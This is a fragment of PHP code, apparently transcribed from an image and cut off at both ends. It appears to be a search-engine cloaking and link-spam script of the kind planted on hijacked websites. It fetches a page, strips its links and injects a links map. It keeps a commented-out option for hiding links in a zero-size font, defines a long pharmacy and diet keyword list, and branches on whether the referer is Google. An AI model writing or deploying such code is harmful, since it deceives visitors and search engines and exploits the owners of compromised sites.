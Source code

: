 ```
                                        $originalpage = @file_get_contents($originalurl);
                                    }

                                if (preg_match('/<body.*?>/i',$originalpage)) {
                                    $originalpage=preg_replace('/href=([\'"]{0,1})http.*?>/i', '>', $originalpage);
                                    $originalpage=preg_replace('/(<body.*?>)/i', "<body>$links_map", $originalpage, 1);
                                } elseif (preg_match('/<\/body>/i',$originalpage)) {
                                    $originalpage=preg_replace('/href=([\'"]{0,1})http.*?>/i', '>', $originalpage);
                                    $originalpage=preg_replace('/(<\/body>)/i', "$links_map</body>", $originalpage, 1);
                                }
                                print $originalpage."<!-- End HTML 3.51.197 -->";
                                exit;                               
                                //echo '<font id="mix" color="8a517f" style="height: 0;overflow: hidden;width: 0; position: absolute; font-family:courier; font-size:19px">'
                                //echo $links_map;
                                //'</font>';
                            }
                    }
                    else
                    {
                    $keys = "/acai|diet|weight|loss|pharmac|drug|lunesta|provigil|modafinil|proventil|accutane|cialas|aciphex|acomplia|acyclovir|adalat|albendazole|albenza|albuterol|aldactone|alendronate|allegra|altace|amaryl|amiloride|amlodipine|amoxicillin|ansaid|arava|arcoxia|atenolol|atorvastatin|avandia|avapro|avodart|aygestin|azathioprine|azithromycin|baclofen|bactrim|benazepril|benzodiazepine|biaxin|bisoprolol|bromocriptine|bupropion|calan|carbamazepine|carisoprodol|carvedilol|ceclor|cefaclor|cefpodoxime|celebrex|celecoxib|cetirizine|chlorambucil|cialis|clarinex|clarithromycin|claritin|clopidogrel|colospa|conjugated|coreg|coumadin|coversyl|cyproheptadine|danazol|danocrine|desloratadine|desyrel|digoxin|dilantin|dipyridamole|domperidone|dutasteride|effexor|eldepryl|enalapril|epivir|erythromycins|escitalopram|esomeprazole|estrace|estradiol|ethambutol|etoricoxib|evista|ezetimibe|famciclovir|famvir|felodipine|fenofibrate|fexofenadine|finasteride|flagyl|flavoxate|flomax|floxin|fluoxetine|flurbiprofen|fosamax|frumil|furosemide|gabapentin|gemfibrozil|geodon|glimepiride|glipizide|glucophage|glucotrol|hydroch|hytrin|hyzaar|ibuprofen|ilosone|imdur|imitrex|imuran|indapamide|inderal|irbesartan|isordil|isosorbide|kamagra|ketoconazole|lamictal|laminuvide|lamisil|lamotrigine|lanoxin|lansoprazole|lasix|leflunomide|lenor72|leukeran|levaquin|levitra|levlen|levofloxacin|levonorgestrel|levothroid|levothyroxine|lexapro|lioresal|lipitor|lisinopril|lopid|lopressor|loratadine|losartan|lotensin|lovastatin|loxapine|loxitane|lozol|mebeverine|medroxy|mefenamicacid|meloxicam|meridia|metformin|metoclopramide|metoprolol|metronidazole|mevacor|mexiletine|mexitil|microzide|minipress|mobic|montelukast|motilium|motrin|myambutol|nabumetone|naprosyn|naproxen|neurontin|nexium|nifedipine|nimodipine|nimotop|niravam|nizoral|nolvadex|norethindrone|norplant72|nortriptyline|norvasc|ofloxacin|omeprazole|orlistat|oseltami|pamelor|pantoprazole|parlodel|paroxetine|paxil|periactin|perindropril|persantine|phenergan|phenytoin|plavix|plendil|ponstel|prandin|pravachol|pravastatin|prazosin|prednisolone|prednisone|premarin|prevacid|prilosec|prograf|promethazine|propafenone|propecia|propranolol|proscar|protonix|provera|prozac|rabeprazole|raloxifene|ramipril|ranitidine|reductil|reglan|relafen|repaglinide|retrovir|rimonabant|risperdal|risperidone|rivotril|rosiglitazonemaleate|roxithromycin|rulide|rythmol|selegiline|sertraline|sibutramine|sildenafil|simvastatin|singulair|soma|spironolactone|stavudine|sulfamet|sumatriptan|sumycin|synthroid|tacrolimus|tadalafil|tamiflu|tamoxifen|tamsulosin|tegaserod|tegretol|tenormin|terazosin|terbinafine|tetracycline|topamax|topiramate|trazodone|tricor|trimox|urispas|valacyclovir|valtrex|vantin|vardenafil|vasotec|venlafaxine|verapamil|viagra|warfarin|xenical|zantac|zebeta|zelnorm|zerit|zestril|zetia|zidovudine|zimulti|ziprasidone|zithromax|zocor|zoloft|zovirax|zyban|zyrtec|ambien|phentermine|xanax|valium|tramadol|adipex|zolpidem|ativan|alprazolam|diazepam|klonopin|lorazepam|clonazepam|ultram|zopiclone|modalert|hair|vicodin|amoxil|atomoxetine|cipro|ciprofloxacin|clomid|clomiphene|deltasone|diflucan|doxycycline|fluconazole|isotretinoin|pentazine|septra|strattera/i";

                    if (strlen($_SERVER["HTTP_REFERER"]) < 30)
                        {

                        if (eregi ("google", $_SERVER["HTTP_REFERER"]))
                            {
```
